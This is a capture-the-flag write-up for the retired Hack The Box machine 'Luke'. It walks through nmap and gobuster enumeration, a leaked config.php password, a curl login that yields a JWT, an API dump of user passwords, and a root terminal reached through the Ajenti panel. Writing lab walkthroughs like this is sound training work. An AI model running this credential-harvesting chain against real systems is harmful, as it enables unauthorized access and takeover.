 # Luke

This is the write-up for the box Luke that got retired at the 14th September 2019.
My IP address was 10.10.12.212 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.137    luke.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/luke.nmap 10.10.10.137
```

```markdown
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3+ (ext.1)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0             512 Apr 14 12:35 webapp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.12.212
|      Logged in as ftp
|      TYPE: ASCII
|      No session upload bandwidth limit
|      No session download bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3+ (ext.1) - secure, fast, stable
|_End of status
22/tcp   open  ssh?
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp   open  http    Apache httpd 2.4.38 ((FreeBSD) PHP/7.3.3)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.38 (FreeBSD) PHP/7.3.3
|_http-title: Luke
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
8000/tcp open  http    Ajenti http control panel
|_http-title: Ajenti
```

## Checking FTP (Port 21)

As anonymous login is allowed we will look what we can find on the FTP service.
```markdown
ftp 10.10.10.137
```

We find one directory with one file _webapp/for_Chihiro.txt_ that says:
```markdown
Dear Chihiro !!

As you told me that you wanted to learn Web Development and Frontend, I can give you a little push by showing the sources of 
the actual website I've created .
Normally you should know where to look but hurry up because I will delete them soon because of our security policies ! 

Derry
```

So we eventually enumerated two usernames.

## Checking HTTP (Port 80)

There is nothing interesting on this website so we launch _gobuster_ to enumerate directories:
```markdown
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u hxxp://10.10.10.137/ -x php
```

This is the output we get:
```markdown
/login.php (Status: 200)
/member (Status: 301)
/management (Status: 401)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/config.php (Status: 200)
/LICENSE (Status: 200)
```

- _/member_ has nothing interesting
- _/management_ gives us a login prompt
- _/login.php_ gives us a login page
- _/config.php_ gives us a string that says:

```markdown
$dbHost = 'localhost';
$dbUsername = 'root';
$dbPassword  = 'Zk6heYCyv6ZE9Xcg';
$db = "login";

$conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error);
```

Now we got some credentials that we are going to test on every login page we found, but none of them work.

## Checking Node.js Express Framework (Port 3000)

This page displays only some JSON output and nothing else. Lets enumerate this webpage for directories, too:
```markdown
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u hxxp://10.10.10.137:3000/ -x php
```

This is the output we get:
```markdown
/login (Status: 200)
/users (Status: 200)
```

- /users just redirects us back
- /login says that we need to authenticate

As we got some credentials from before lets try to authenticate on this with _curl_:
```markdown
curl -XPOST hxxp://10.10.10.137:3000/login -d 'username=root&password=Zk6heYCyv6ZE9Xcg'
```

The response of the page is **Forbidden** so we now know that this gets accepted and we eventually need the correct username. 
When we try this with **admin** and the same password, we get a different response!
```markdown
curl -XPOST hxxp://10.10.10.137:3000/login -d 'username=admin&password=Zk6heYCyv6ZE9Xcg'
```

Response:
```json
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4OTcwNzQ5LCJleHAiOjE1NjkwNTcxNDl9.KYhdXTx04_hLWVM9ap83ktAdQ5YjAujQBa_sJkPMJBQ"}
```

This is a JSON Web Token (JWT) that we can decipher to get more information.

### JSON Web Token

The values of the "token" are just Base64 decoded and can be read by decoding it.
The values are seperated by a _dot_ and should be decoded individually.

- eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
  - This gives us information about the token like the algorithm that was used for signing
  - Decoded: {"alg":"HS256","typ":"JWT"}
  
- eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4OTcwNzQ5LCJleHAiOjE1NjkwNTcxNDl9
  - This is the data of the token
  - Decoded: {"username":"admin","iat":1568970749,"exp":1569057149}
  
- KYhdXTx04_hLWVM9ap83ktAdQ5YjAujQBa_sJkPMJBQ
  - This is the signature of the token and can't be deciphered that easily but we don't need to anyway
  
Now lets use this token on the the Node.js framework page with _curl_:
```markdown
curl hxxp://10.10.10.137:3000/ -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4OTcwNzQ5LCJleHAiOjE1NjkwNTcxNDl9.KYhdXTx04_hLWVM9ap83ktAdQ5YjAujQBa_sJkPMJBQ'
```

Response:
```json
{"message":"Welcome admin ! "}
```

After authenticating we should look into the _/users_ directory that we found earlier:
```markdown
curl -s hxxp://10.10.10.137:3000/users -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4OTcwNzQ5LCJleHAiOjE1NjkwNTcxNDl9.KYhdXTx04_hLWVM9ap83ktAdQ5YjAujQBa_sJkPMJBQ' | jq
```

I am using **jq** so the JSON output is prettier and we get this:
```json
[                                                                                                                                                                                                        
  {                                                                                                 
    "ID": "1",                                                                                      
    "name": "Admin",                                                                                
    "Role": "Superuser"                                                                             
  },                                                                                                
  {                                                                                                                                                                                                      
    "ID": "2",                                                                                      
    "name": "Derry",                                                                                                                                                                                     
    "Role": "Web Admin"                                                                             
  },                                                                                                
  {                                                                                                 
    "ID": "3",                                                                                      
    "name": "Yuri",                                                                                 
    "Role": "Beta Tester"                                                                           
  },                                                                                                
  {
    "ID": "4",
    "name": "Dory",
    "Role": "Supporter"
  }
]
```

Now we get all users and can interact with them:
```markdown
curl -s hxxp://10.10.10.137:3000/users/Admin -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4OTcwNzQ5LCJleHAiOjE1NjkwNTcxNDl9.KYhdXTx04_hLWVM9ap83ktAdQ5YjAujQBa_sJkPMJBQ' | jq
```

Response:
```json
{
  "name": "Admin",
  "password": "WX5b7)>/rp$U)FW"
}
```

If we do this for all the users we get a password for all of them:
- Admin:WX5b7)>/rp$U)FW
- Derry:rZ86wwLvx7jUxtch
- Yuri:bet@tester87
- Dory:5y:!xa=ybfe)/QD

We will try all these credentials on every login prompt we got and find out that the credentials of _Derry_ works on the **/management** directory that we found on port 80.

### Log into /management on port 80

On this page we get an index for _login.php, config.php and config.json_. We know the PHP sites so we check the JSON file and see that these are configuration files for **Ajenti**. In those files we find a password:
> KpMasng6S5EtTy9Z

## Checking Ajenti (Port 8000)

The password we got works on Ajenti with the user _root_. Ajenti is an admin control panel where we can easily browse the file system or spawn a shell on the server.
We click on _Terminal_ and see that we are root and the box is done!
